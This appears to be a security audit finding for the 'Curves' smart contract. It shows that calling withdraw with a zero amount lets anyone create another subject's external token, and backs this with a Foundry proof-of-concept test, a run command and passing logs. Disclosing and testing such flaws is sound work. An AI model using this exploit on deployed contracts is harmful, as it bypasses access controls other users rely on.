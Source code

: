 ### Description
Anyone create unminted external curve tokens of others, bypassing the restrinction that was intended to only allow the subject to create its own external token.

---
### Proof of Concept
1. The attacker bypasses to create the external curve token of the `curvesTokenSubject` of `Alice` by withdrawing with 0 amount: 

```Curves.withdraw(curvesTokenSubjectOfAlice, 0)```

2. Running this test, it will pass, demonstrating that the attacker can create the external token curve of anyone.

Run test: </br>
```forge test --mt test_poc_bypass_create_external_curve_token -vvv```
</br>

```solidity
    contract  CurvesTest is Test {
      Curves public curves;
      address public owner;
      address public attacker;
      address public curvesTokenSubjectOfAlice;

      function setUp() public {
          attacker = makeAddr("attacker");
          curvesTokenSubjectOfAlice = makeAddr("Alice");
          CurvesERC20Factory curveERC20Factory = new CurvesERC20Factory();
          vm.prank(owner);
          curves = new Curves(address(curveERC20Factory), makeAddr("feeRedistributor_"));
      }

      function test_poc_bypass_create_external_curve_token() public {
          // initiate the transaction for withdraw and create someone curve subject
          vm.startPrank(attacker);
          (string memory nameBefore, string memory symbolBefore, address tokenBefore) = curves.externalCurvesTokens(curvesTokenSubjectOfAlice);
          console.log("BEFORE:: The external token before attack of subject: Alice \n name: %s\n symbol: %s\n token: %s", nameBefore, symbolBefore, tokenBefore);
          // attacker attempts to set the Curves
          curves.withdraw(curvesTokenSubjectOfAlice, 0);
          vm.stopPrank();
          (string memory nameAfter, string memory symbolAfter, address tokenAfter) = curves.externalCurvesTokens(curvesTokenSubjectOfAlice);
          console.log("AFTER:: The external token after attack of subject: Alice \n name: %s\n symbol: %s\n token: %s", nameAfter, symbolAfter, tokenAfter); 
      }
  }
```

3. The following result:
```
Running 1 test for test/foundry/H02.t.sol:CurvesTest
[PASS] test_poc_bypass_create_external_curve_token() (gas: 981436)
Logs:
  BEFORE:: The external token before attack of subject: alice 
 name: 
 symbol: 
 token: 0x0000000000000000000000000000000000000000
  AFTER:: The external token after attack of subject: alice 
 name: Curves 1
 symbol: CURVES1
 token: 0x104fBc016F4bb334D775a19E8A6510109AC63E00
```